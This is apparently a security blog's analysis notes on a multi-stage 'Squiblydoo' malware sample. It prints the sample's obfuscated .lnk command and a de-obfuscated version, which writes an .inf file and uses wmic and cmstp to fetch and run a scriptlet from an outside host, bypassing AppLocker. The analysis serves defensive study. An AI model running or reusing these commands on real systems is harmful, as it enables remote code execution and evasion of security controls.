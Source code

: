 ```yaml
---
title: Attack - RCE Multi-stage Squiblydoo variant
# author: Grace JyL
date: 2020-11-11 11:11:11 -0400
description:
excerpt_separator:
categories: [10CyberAttack, Vulnerability]
tags: [CyberAttack]
math: true
# pin: true
toc: true
# image: /assets/img/sample/devices-mockup.png
---
```


[toc]

---


# Multi-stage Squiblydoo variant

---

## step 1

the `.lnk` file has a cmd command but it looks encoded/obfuscated.
- the cmd contains two distinct sections.
- The first part `creates a “RANDOM.inf” file`
  - (RANDOM is a random number generated via %random% command)
- the second part starts it using `WMI` and `cmstp`
  - cmstp is often used to bypass Applocker

original

```c
“C:\Windows\System32\cmd.exe” /v /c set “EhWLDvbm34801=Items”
&& call set “EhWLDvbm4162=%EhWLDvbm34801:~4,1%”
&& (for %e in (c) do @set “EhWLDvbm4796=%~e”)
&& !EhWLDvbm4162!et “EhWLDvbm8561=na”
&& !EhWLDvbm4162!et “EhWLDvbm85714=a”
&& !EhWLDvbm4162!et “EhWLDvbm13835=t”
&& !EhWLDvbm4162!et “EhWLDvbm9306=d”
&& call !EhWLDvbm4162!et “EhWLDvbm1449=%ran!EhWLDvbm9306!om%.inf”
&& call !EhWLDvbm4162!et “EhWLDvbm9442=%app!EhWLDvbm9306!ata%\Micro!EhWLDvbm4162!oft\!EhWLDvbm1449!”
&& !EhWLDvbm4162!et “EhWLDvbm59779=.”
&& !EhWLDvbm4162!et “EhWLDvbm19532=“^”
&& (for %r in (“[ver!EhWLDvbm4162!ion]” “!EhWLDvbm4162!ig!EhWLDvbm8561!ture=$Window!EhWLDvbm4162! NT$” “[!EhWLDvbm9306!e!EhWLDvbm4162!tinationdirs]” “2A436=01” “[!EhWLDvbm9306!efaultin!EhWLDvbm4162!tall_singleu!EhWLDvbm4162!er]” “UnRegis!EhWLDvbm13835!erOCXs=47E0” “!EhWLDvbm9306!elfiles=2A436" “[47E0]” “%11%\%EhWLDvbm55506%crO%EhWLDvbm59234%j,NI,%EhWLDvbm69079%%EhWLDvbm23745%%EhWLDvbm23745%p%EhWLDvbm23092%%EhWLDvbm20494%%EhWLDvbm20494%web2!EhWLDvbm59779!e-fax!EhWLDvbm59779!%EhWLDvbm2079%/gmaps!EhWLDvbm59779!txt” “[2A436]” “!EhWLDvbm1449!” “[!EhWLDvbm4162!!EhWLDvbm13835!rings]” “EhWLDvbm23745=t” “EhWLDvbm69079=h” “EhWLDvbm23092=:” “EhWLDvbm55506=s” “EhWLDvbm20494=/” “EhWLDvbm59234=b” “EhWLDvbm2079=org” “!EhWLDvbm4162!ervicen!EhWLDvbm85714!me=' ‘” “!EhWLDvbm4162!hortsvcn!EhWLDvbm85714!me=’ ’“) do @e!EhWLDvbm4796!ho %~r)>“!EhWLDvbm9442!
“&& !EhWLDvbm4162!t!EhWLDvbm85714!rt “” /MIN wmi!EhWLDvbm4796! proce!EhWLDvbm4162!s call !EhWLDvbm4796!rea!EhWLDvbm13835!e “cm!EhWLDvbm4162!!EhWLDvbm13835!p /ns /!EhWLDvbm4162! /su !EhWLDvbm9442!”
```

---

## chop

- `&&` runs the second command on the line when the first command comes back successfully
- `%variablename%` a inbuilt or user set environmental variable
- `!variablename!` a user set environmental variable expanded at execution time, turned with SetLocal EnableDelayedExpansion command

```c
%Items:~4,1%=s

%~e=c


smtp:
Syntax 1 - This is the typical syntax used in a custom installation application. To use this syntax, you must run cmstp from the directory that contains the <serviceprofilefilename>.exe file.

<serviceprofilefilename>.exe /q:a /c:cmstp.exe <serviceprofilefilename>.inf [/nf] [/s] [/u]

Syntax 2
cmstp.exe [/nf] [/s] [/u] [drive:][path]serviceprofilefilename.inf
```



```c
“C:\Windows\System32\cmd.exe” /v /c set “Items=Items”
&& call set “EhWLDvbm4162=%Items:~4,1%=s”
&& (for %e in (c) do @set “EhWLDvbm4796=%~e=c”)
&& set “EhWLDvbm8561=na”
&& set “EhWLDvbm85714=a”
&& set “EhWLDvbm13835=t”
&& set “EhWLDvbm9306=d”
&& call set “EhWLDvbm1449=%random%.inf”
&& call set “EhWLDvbm9442=%appdata%\Microsoft\%random%.inf”
&& set “EhWLDvbm59779=.”
&& set “EhWLDvbm19532=“^”
&& (for %r in (
    “[version]”
    “signature=$Windows NT$”
    “[destinationdirs]”
    “2A436=01”
    “[defaultinstall_singleuser]”
    “UnRegisterOCXs=47E0”
    “delfiles=2A436"
    “[“UnRegisterOCXs]”
    “%11%\scrObj,NI,https://web2.e-fax.org/gmaps.txt”
    “[“delfiles]”
    “%random%.inf”
    “[strings]”
    “EhWLDvbm23745=t”
    “EhWLDvbm69079=h”
    “EhWLDvbm23092=:”
    “EhWLDvbm55506=s”
    “EhWLDvbm20494=/”
    “EhWLDvbm59234=b”
    “EhWLDvbm2079=org”
    “servicename=' ‘”
    “shortsvcname=’ ’“
    ) do @echo %~r)>“%appdata%\Microsoft\%random%.inf“
&& start “” /MIN wmic process call create “cmstp /ns /s /su %appdata%\Microsoft\%random%.inf”

```




---

ref
- [Analysis of a Multi-stage Squiblydoo variant](https://blog.n0p.me/2020/10/2020-10-13-malware-applocker-bypass/#stage-2-updatetxt)





.
